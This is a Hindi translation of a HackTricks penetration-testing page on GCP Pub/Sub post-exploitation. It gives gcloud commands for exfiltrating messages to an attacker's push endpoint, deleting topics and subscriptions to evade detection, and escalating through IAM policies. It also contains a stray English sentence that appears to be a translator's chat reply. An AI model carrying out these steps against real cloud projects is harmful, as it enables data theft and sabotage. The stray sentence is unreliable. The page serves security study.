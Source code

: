 # GCP - Pub/Sub पोस्ट एक्सप्लॉइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

एक टॉपिक में संदेश प्रकाशित करें, अप्रत्याशित डेटा **भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या भेद्यताओं का शोषण करने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पता लगाने से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पता लगाने से बचने के लिए।\
इसे सदस्यता से जुड़े होने के बावजूद भी एक विषय को हटाना संभव है।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग करके विषय की कुछ सेटिंग्स को बाधित करने के लिए अपडेट करें, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

खुद को पिछले हमलों में से किसी को भी करने की अनुमति दें।

### **pubsub.subscriptions.create`,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

सदस्यता बनाएं और इसका उपयोग **संदेशों को पुल करने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**सदस्यता को हटाना (Delete a subscription)** लॉग प्रोसेसिंग सिस्टम या इसी तरह की किसी चीज़ को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग्स को अपडेट करने के लिए करें ताकि संदेशों को ऐसी जगह पर संग्रहित किया जा सके जहाँ आप पहुँच सकें (URL, Big Query टेबल, Bucket) या सिर्फ इसे बाधित करने के लिए।

### `pubsub.subscriptions.setIamPolicy`

खुद को उन अनुमतियों को दें जो पहले चर्चा किए गए हमलों को करने के लिए आवश्यक हैं।

### `pubsub.schemas.delete`

एक स्कीमा को हटाएं ताकि आप ऐसे संदेश भेज सकें जो स्कीमा के अनुरूप नहीं होते:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को टॉपिक से अटैच करें ताकि संदेश उसे पूरा न करें और इस तरह से टॉपिक बाधित हो जाए।\
यदि कोई स्कीमा नहीं हैं, तो आपको एक बनाने की आवश्यकता हो सकती है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
Since you've provided a markdown end code tag `{% endcode %}` without any preceding content or context, there's nothing to translate. Please provide the relevant English text that you would like to be translated into Hindi, while maintaining the markdown and HTML syntax.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

अपने आप को पहले चर्चा किए गए हमलों को करने के लिए आवश्यक अनुमतियाँ दें।

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

यह सभी unACKed संदेशों का स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
